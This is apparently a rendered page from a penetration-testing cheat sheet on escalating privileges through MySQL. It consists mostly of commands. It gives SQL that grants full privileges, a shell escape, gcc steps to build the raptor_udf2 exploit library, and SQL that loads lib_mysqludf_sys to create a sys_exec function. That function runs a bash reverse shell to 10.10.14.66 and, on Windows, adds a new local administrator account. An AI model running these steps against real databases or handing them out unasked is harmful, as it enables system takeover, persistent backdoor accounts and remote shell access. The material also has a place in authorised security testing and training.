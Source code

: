 ```
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;

# Get a shell (with your permissions, usefull for sudo/suid privesc)
\! sh
```
```
### Privilege Escalation via library

If the **mysql server is running as root** (or a different more privileged user) you can make it execute commands. For that, you need to use **user defined functions**. And to create a user defined you will need a **library** for the OS that is running mysql.

The malicious library to use can be found inside sqlmap and inside metasploit by doing **`locate "*lib_mysqludf_sys*"`**. The **`.so`** files are **linux** libraries and the **`.dll`** are the **Windows** ones, choose the one you need.

If you **don't have** those libraries, you can either **look for them**, or download this [[https://www.exploit-db.com/exploits/1518|**linux C code**]] and **compile it inside the linux vulnerable machine**:

```bash
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
```
Now that you have the library, login inside the Mysql as a privileged user (root?) and follow the next steps:

#### Linux

```sql
# Use a database
use mysql;
# Create a table to load the library and move it to the plugins dir
create table npn(line blob);
# Load the binary library inside the table
## You might need to change the path and file name
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
# Get the plugin_dir path
show variables like '%plugin%';
# Supposing the plugin dir was /usr/lib/x86_64-linux-gnu/mariadb19/plugin/
# dump in there the library
select * from npn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys.so';
# Create a function to execute commands
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
# Execute commands
select sys_exec('id > /tmp/out.txt; chmod 777 /tmp/out.txt');
select sys_exec('bash -c "bash -i >& /dev/tcp/10.10.14.66/1234 0>&1"');
```
```
#### Windows

```sql
# CHech the linux comments for more indications
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_file('C://temp//lib_mysqludf_sys.dll'));
show variables like '%plugin%';
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```
```
```